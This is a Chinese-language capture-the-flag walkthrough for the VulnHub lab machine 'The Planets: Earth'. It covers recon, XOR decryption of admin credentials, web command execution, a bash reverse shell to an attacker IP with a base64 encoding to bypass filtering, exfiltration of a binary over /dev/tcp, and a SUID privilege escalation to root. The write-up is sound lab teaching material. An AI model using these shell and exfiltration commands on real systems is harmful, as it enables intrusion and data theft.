# The Planets:Earth
## 准备工作
- 虚拟机：vmware    
**virtual virtual network改为NAT**  
- [The Planets:Earth 靶机下载](https://www.vulnhub.com/entry/the-planets-earth,755/#download)   
- 攻击机：kali    
- 靶机：The Planets: Earth
## 一.信息收集  
- arp-scan获取靶机IP  
  `arp-scan -l`确认靶机地址  
  <!-- `arp-scan -l`命令详解：扫描本地网络，发送ARP请求，返回活跃主机的IP和MAC地址 -->  
  

- nmap扫描靶机开放端口     
  `nmap -A 192.168.239.131`
   <!-- `nmap -A`命令详解：全面探测目标主机信息，包括开放端口和服务，操作系统，服务版本检测，脚本扫描，路由追踪 -->
  
  发现443端口有DNS域名解析    

- 在hosts文件中手动添加DNS解析

      

- 浏览器访问 https://earth.local/  https://terratest.earth.local/

  
  

- dirb扫描网站目录   

  `dirb https://earth.local`   
  `dirb https://terratest.earth.local`  
     
     

- 浏览器访问 https://earth.local/admin https://terratest.earth.local/robots.txt  

    
  **Log In** 之后跳转到登录界面   
    
    
  *为未知，猜测为txt  
     
  翻译：
  ```
  测试安全消息系统注意事项：
  *使用XOR加密作为算法，应该像在RSA中使用一样安全。
  *地球已经确认他们收到了我们发送的信息。
  *testdata.txt用于测试加密。
  *terra用作管理门户的用户名。
  Todo：
  *我们如何安全地将每月的密钥发送到地球？还是我们应该每周更换钥匙？
  *需要测试不同的密钥长度以防止暴力。钥匙应该有多长？
  *需要改进消息传递界面和管理面板的界面，这是目前非常基本的。
  ```
  访问testdata.txt  
     
## 二.获取user_flag
- 将其与先前https://earth.local中Previous Messages的三条数据进行异或运算，用cyberchef解密   

     
- 登录  

  访问https://earth.local/admin/login，用户名terra，密码earthclimatechangebad4humans登录
    
  页面为管理员命令工具，输入命令并提交可进行回显。
- 获取user_flag   

  命令```find / -name "*flag*"```查找当前权限下所有带flag名称的文件
  
  ```cat /var/earth_web/user_flag.txt```得到user_flag
  
## 三.获取root_flag   
  网页可以直接输入id命令查看当前用户及权限  
  
- 连接靶机  
  使用netcat反弹shell：   
  kali执行nc -lvp 8834开启监听  <!-- (l开启监听v详细输出p指定端口) -->  
  网页执行```bash -i >& /dev/tcp/192.168.239.129/8834 0>&1```发现不起作用，一查发现IP被限制了，用base64编码绕过
  ```echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIzOS4xMjkvODgzNCAwPiYx" |base64 -d |bash```  <!-- 管道符"|"左边命令的输出就会作为管道符右边命令的输入，base64 -d 解密，bash用于强制此命令作为脚本运行 -->  
  

- 提权  
  查找可以以root权限执行的文件```find / -perm -u=s -type f 2>/dev/null```
  <!-- -perm表示按权限查找，-u=s 表示查找具有SUID位设置的文件 ，-type f表示搜索内容为文件。2>/dev/null将错误消息重定向到/dev/null，以避免在搜索期间看到不必要的错误消息 -->
  
  发现reset_root文件
  运行发现报错
  
  kali换个端口监听，反弹shell执行```cat /usr/bin/reset_root > /dev/tcp/192.168.10.107/5555```
  
  用strace分析文件
  
  根据报错信息在靶机中创建文件
  ```
  touch /dev/shm/kHgTFI5G
  touch /dev/shm/Zw7bV9U5
  touch /tmp/kcM0Wewe
  ```
并再次访问```/usr/bin/reset_root```

提示修改密码为Earth
再次查看id 已取得root权限，cd至root目录查看到root_flag文件
